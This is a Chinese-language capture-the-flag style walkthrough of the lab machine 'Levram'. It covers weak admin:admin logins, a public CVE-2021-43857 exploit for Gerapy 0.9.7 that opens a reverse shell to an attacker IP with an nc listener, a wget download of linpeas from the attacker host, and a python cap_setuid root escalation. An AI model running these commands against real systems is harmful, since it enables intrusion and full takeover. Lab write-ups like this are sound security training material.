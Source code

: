 ```yaml
---
description: >-
  Easy - Linux / Gerapy 0.9.7 / CVE-2021-43857 / Capabilities提权 - cap_setuid
  python
---
```


# ✔️ Levram

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和8000

```bash
nmap -sC -sV -oA levram 192.168.124.24 --open
```

<figure><img src="../../.gitbook/assets/1.png" alt=""><figcaption></figcaption></figure>

* 检查8000端口上的内容，尝试弱口令登录成功： **admin : admin**

<figure><img src="../../.gitbook/assets/2.png" alt=""><figcaption></figcaption></figure>

* 并发现了当前正在运行的程序及其版本号：**Gerapy v0.9.7**

<figure><img src="../../.gitbook/assets/3.png" alt=""><figcaption></figcaption></figure>

* 枚举8000端口上的隐藏文件/目录，找到了/admin目录：

<figure><img src="../../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

* 在8000端口上的/robots.txt里的/admin目录对应上：

<figure><img src="../../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

* 查看发现是Django Administration登录页面，使用弱口令登录成功：**admin:admin**

<figure><img src="../../.gitbook/assets/7.png" alt=""><figcaption></figcaption></figure>

* 依次查看并无任何有用的收获：

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 根据之前已获取到的正在运行的程序Gerapy v0.9.7，查找到了公开的可利用漏洞：

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 在GitHub上找到了可以直接利用的脚本，无需修改直接执行：

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

### Get Shell

* 执行cve-2021-43857.py：

```bash
python3 cve-2021-43857.py -u http://192.168.193.24:8000 -U admin -P admin -r 192.168.45.244 -p 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/13 (1).png" alt=""><figcaption></figcaption></figure>

* 获取到local.txt：

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 上传linpeas.sh进行信息收集：

```bash
# Kali：
python3 -m http.server
# target：
wget http://192.168.45.244:8000/linpeas.sh
```

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

* 执行linpeas.sh：

```bash
chmod 777 linpeas.sh
./linpeas.sh
```

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 从linpeas.sh的输出结果中得知Files with capabilities这一项的 **/usr/bin/python3.10 cap\_setuid=ep** 可被利用：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

* 这是因为python 3.10作为可执行文件，被赋予了cap\_setuid的能力。在GTFOBins中找到了可利用的命令：

<figure><img src="../../.gitbook/assets/18.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 先切换到/bin目录下，因为python在该目录下。然后执行以下命令即可提权到root权限：

```bash
cd /usr/bin
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 获取到proof.txt：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
